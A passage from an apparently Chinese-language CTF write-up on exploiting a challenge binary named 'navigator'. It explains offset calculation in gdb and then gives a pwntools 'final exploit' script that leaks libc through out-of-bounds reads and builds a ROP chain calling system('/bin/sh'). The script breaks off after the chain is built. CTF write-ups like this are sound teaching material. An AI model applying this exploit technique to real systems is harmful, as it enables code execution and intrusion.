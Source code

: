 ![image](https://hackmd.io/_uploads/B17Rx3s0C.png)

會發現程式從 0xfff...de90 開始寫資料進去陣列裡面，然後最後 ret 到 main 的 0xfff...dde8 ret (mov edi,eax)，用這兩個數值去相減就會求出 offset ㄌ。

如果不太清楚為啥 mov edi,eax 那邊是 main func 的 ret 的話，其實可以在 main 對他的 fgets 跟 ret 下斷點，觀察之後就會發現數值一模一樣ㄌ。最後在寫 exploit 的時候要注意一下 ret 的值沒有被吃到，所以要送一個 quit 讓他被吃到w

![image](https://hackmd.io/_uploads/Hkii-3sAR.png)

#### final exploit

```python=
from pwn import *

context.arch='amd64'

r=process('./navigator_patched')

DEBUG=input('Debug:y/n'+'\n')

if DEBUG=="y":
   context.log_level = 'debug'
   context.terminal = ['tmux', 'splitw', '-h']

def p():
    gdb.attach(r)

def set_pin(index,alphabet):
	r.sendlineafter(b'>>',b'1')
	r.sendlineafter(b'>>',str(index).encode())
	r.sendlineafter(b'>>',alphabet)
	
def view_pin(index):
	r.sendlineafter(b'>>',b'2')
	r.sendlineafter(b'>>',str(index).encode())

def libc(index):
	temp=b''
	for i in range(0,8):
		r.sendlineafter(b'>>',b'2')
		r.sendlineafter(b'>>',str(index+i).encode())
		r.recvline(2)
		temp+=r.recv(1)
	return hex(u64(temp))	

leak=int(libc(-8*17),16)

print('leak libc:',hex(leak))
print('==========')

libc_base=leak-0x43654

print('libc_base',hex(libc_base))
print('===========')

pop_rdi=0x000000000002a3e5+libc_base
bin_sh=0x00000000001d8678+libc_base
system=0x00050d70+libc_base

ROPchain=p64(pop_rdi)+p64(bin_sh)+p64(pop_rdi+0x1)+p64(system)
ROPchain=bytearray(ROPchain)

#print(len(ROPchain))
```